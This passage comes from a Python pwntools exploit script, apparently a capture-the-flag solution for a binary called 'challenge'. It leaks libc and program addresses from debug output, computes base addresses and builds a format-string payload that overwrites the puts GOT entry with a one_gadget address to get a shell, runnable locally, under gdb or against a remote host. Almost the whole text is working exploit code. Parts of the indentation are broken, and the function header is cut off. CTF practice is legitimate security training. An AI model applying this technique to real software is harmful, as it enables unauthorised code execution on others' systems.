 ```python
payload += b'A' * (0x20 - len(payload) - 2) + b'</'
print(hexdump(payload))
io.send(payload)

print(io.recvuntil(b'What tag would you like to replace [q to quit]?\n'))
io.sendline(b'\x00')
print(io.recvuntil(b'With what new tag?\n'))
io.sendline(b'\x01')

print(io.recvuntil(b'What tag would you like to replace [q to quit]?\n'))
io.sendline(b'A')
print(io.recvuntil(b'With what new tag?\n'))
io.sendline(b'B')

print(io.recvuntil(b'[DEBUG] '))

leak = io.recvuntil(b'Please provide feedback about v2: ')
print(hexdump(leak))

libc_leak = int(leak[5:5 + 16], 16)
libc_base = libc_leak - elf.libc.sym['_IO_file_write'] - 0x2d
print('libc base', hex(libc_base))

text_leak = u64(leak[0x20 + 10 + 1:0x20 + 10 + 1 + 6] + b'\x00' * 2)
text_base = text_leak - elf.sym['replace_tag_v1']
print('text base', hex(text_base))

puts_got = text_base + elf.got['puts']
one_gadget = libc_base + 0xe3b01

writes = {
    puts_got: one_gadget
}
payload = fmtstr_payload(8, writes)

print(hexdump(payload))
io.sendline(payload)


if __name__ == '__main__':
parser = argparse.ArgumentParser()
parser.add_argument('--debug', action='store_true')
parser.add_argument('--remote', type=str, default=None)

args = parser.parse_args()

elf = context.binary = ELF('challenge')

if args.debug:
    context.terminal = ['tmux', 'splitw', '-h']
    io = gdb.debug(context.binary.path, '''
    set follow-fork-mode child
    break main
    continue
    ''')
elif args.remote:
    ip, port = args.remote.split(':')
    io = remote(ip, port)
else:
    io = process()  # Actually start running the process

solve(io)

```